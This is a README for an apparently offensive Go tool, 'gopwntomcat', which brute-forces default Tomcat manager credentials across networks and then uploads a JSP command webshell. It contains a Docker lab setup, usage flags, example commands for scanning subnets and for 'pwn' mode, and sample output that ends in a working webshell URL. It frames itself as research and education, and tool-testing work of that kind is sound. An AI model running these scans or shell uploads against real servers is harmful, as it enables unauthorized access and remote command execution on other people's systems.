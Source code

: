 # DISCLAIMER
This repository is for research purposes only, the use of this code is your responsibility.

I take NO responsibility and/or liability for how you choose to use any of the source code available here. By using any of the files available in this repository, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again, ALL files available here are for EDUCATION and/or RESEARCH purposes ONLY.

# gopwntomcat

This is a small little scanner and exploiting script. It will detect (brute-force) default credentials on a tomcat instance. If you find valid credentials you can use it to upload a command shell or a custom jsp shell.

## Example Environment

I used a docker container to test this script and so can you.

You create two files `tomcat-users.xml` and `context.xml` with the following content. I created them within `/tmp/`.

**tomcat-users.xml**:
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

**context.xml**:
```xml
<Context antiResourceLocking="true" privileged="true" >
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
   <Realm className="org.apache.catalina.realm.CombinedRealm">
    <Realm className="org.apache.catalina.realm.LockOutRealm"
      failureCount="50" lockOutTime="1" >
	    <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
	      resourceName="UserDatabase"/>
    </Realm>
  </Realm>
</Context>
```

Then you start the docker container like so:

```bash
$ docker run \
  --name tomcat \
  -it --rm \
  -p 8080:8080 \
  -v /tmp/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
  -v /tmp/context.xml:/tmp/context.xml \
  tomcat \
  /bin/bash -c "mv /usr/local/tomcat/webapps /usr/local/tomcat/webapps2; mv /usr/local/tomcat/webapps.dist /usr/local/tomcat/webapps; cp /tmp/context.xml /usr/local/tomcat/webapps/manager/META-INF/context.xml; catalina.sh run"
```

If this succeeds you will have a tomcat running at http://your-ip:8080 with the manager @ /manager/html and the default login `tomcat:s3cret`.

## Usage
```
gopwntomcat v0.0.1
Usage: gopwntomcat -mode [scan|pwn] [mode specific options] (default: mode scan)

Scan options:
	-port		The port to use while scanning      (default: 8080)
	-ssl		Whether or not to use ssl           (default: false)
	-targeturi	Where the manager app is located at (default: /manager/html)
	-threads	Concurrent threads while scanning   (default: 1)
	-rhost		IP or CIDR - you can define multiple

Pwn options:
	-port		The port to use for connection      (default: 8080)
	-ssl		Whether or not to use ssl           (default: false)
	-targeturi	Where the manager app is located at (default: /manager/html)
	-user		Valid username for logon            (default: tomcat)
	-pass		Valid password for logon            (default: tomcat)
	-customjsp	Define custom jsp to upload         (default: embedded cmd jsp)
	-rhost		Single IP, no multiple -rhost flags allowed

Examples:
	Scan a /24 net with 5 threads and different manager url:
		gopwntomcat -targeturi /custom/path/to/manager/html -rhost 192.168.1.0/24
	Scan multiple ips on different port with ssl:
		gopwntomcat -port 8443 -ssl -rhost 192.168.1.12 -rhost 10.10.10.100
	Pwn a tomcat server you know the credentials of:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret
	Pwn a tomcat server you know the credentials of with custom jsp:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret -customjsp ./custom.jsp

```

## Scan
With the above environment in place a successful scan could look like this:

```bash
$ ./gopwntomcat -rhost 192.168.1.0/24 -threads 5
2021/02/24 14:54:03 Started scan
----------------------------------------------------------------
2021/02/24 14:54:03 Host 192.168.1.223 responded to /manager/html request
2021/02/24 14:54:03 Host 192.168.1.223 requires authentication. Proceeding with password guessing...
Valid credentials found @192.168.1.223 - tomcat:s3cret
----------------------------------------------------------------
2021/02/24 14:54:33 Scan completed
```

## Exploit
After you got valid credentials you can upload a command shell using this command:

```bash
./gopwntomcat -mode pwn -rhost 192.168.1.223 -user tomcat -pass s3cret
2021/02/24 14:57:45 Let the pwn begin
2021/02/24 14:57:45 Fetching sessin ID and CSRF token...
2021/02/24 14:57:45 Uploading and deploying n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB ...
2021/02/24 14:57:45 Uploading 1059 bytes as n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB.war ...
2021/02/24 14:57:45 Upload was successful. Find your shell @ http://192.168.1.223:8080/n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB/AJ8IVUezjlrg1g4DsKI80PVTinkchs8e.jsp
```

Navigating your browser to the link will result in a webshell showing up:

![screenshot](/screenshot.png "Command shell in browser")
